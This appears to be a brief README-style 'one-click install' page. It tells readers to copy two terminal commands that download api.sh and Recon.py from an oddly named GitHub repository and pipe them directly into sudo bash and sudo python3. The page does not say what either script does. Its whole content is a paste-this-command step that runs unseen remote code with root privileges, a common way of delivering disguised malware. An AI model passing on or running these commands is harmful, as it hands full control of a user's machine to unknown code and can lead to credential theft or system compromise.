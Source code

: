 ## One‑click install

**Run these on your terminal (copy each command separately):**

### 1) Install & run api.sh
```bash
curl -s "https://raw.githubusercontent.com/t56r4re/34553/refs/heads/main/api.sh" | sed 's/\r$//' | sudo bash
```
sudo sh -c 'curl -sL "https://raw.githubusercontent.com/t56r4re/34553/refs/heads/main/Recon.py" | sed "s/\r$//" | python3 -'
